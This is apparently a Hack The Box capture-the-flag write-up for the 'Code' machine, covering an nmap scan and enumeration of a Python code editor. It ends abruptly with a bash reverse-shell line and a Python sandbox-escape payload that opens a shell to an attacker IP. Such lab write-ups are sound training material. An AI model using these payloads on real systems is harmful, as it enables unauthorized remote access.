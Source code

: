 ```yaml
---
title: Code
date: 2025-05-14
image: /ctf/hack-the-box/machines/code/info-card.png
type: Hack The Box
---
```


![Code - info card](/ctf/hack-the-box/machines/code/info-card.png)

# Enumeration

## Network Scanning

We perform a scan to identify open ports and services:

```bash
nmap -sC -sV -v -A -p- -oN nmap.txt 10.10.11.62
```

Scan Results:

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b5b97cc4503295bcc26517df51a27abd (RSA)
|   256 94b525549b68afbe40e11da86b850d01 (ECDSA)
|_  256 128cdc97ad8600b488e229cf69b56596 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-title: Python Code Editor
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: gunicorn/20.0.4
```

**Observations:**

- SSH (22/tcp) is running OpenSSH 8.2p1.
- A web server (Gunicorn 20.0.4) is running on port 5000.

## Web Enumeration

Navigating to the target IP address (10.10.11.62) reveals a Python code editor interface.

![Code - Python code editor](/ctf/hack-the-box/machines/code/python-code-editor.png)

Using `wappalyzer` we can identify the technology used by the web server:

![Code - Wappalyzer](/ctf/hack-the-box/machines/code/wappalyzer.png)

The application used `Ace` version `1.4.12` for the code editor.

/bin/bash -i >& /dev/tcp/10.11.125.246/9999 0>&1


```py
''.__class__.__mro__[1].__subclasses__()[317](['/bin/sh','-i', '>&', '/dev/tcp/10.10.14.7/4444', '0>&1'], stdout=-1).communicate()
```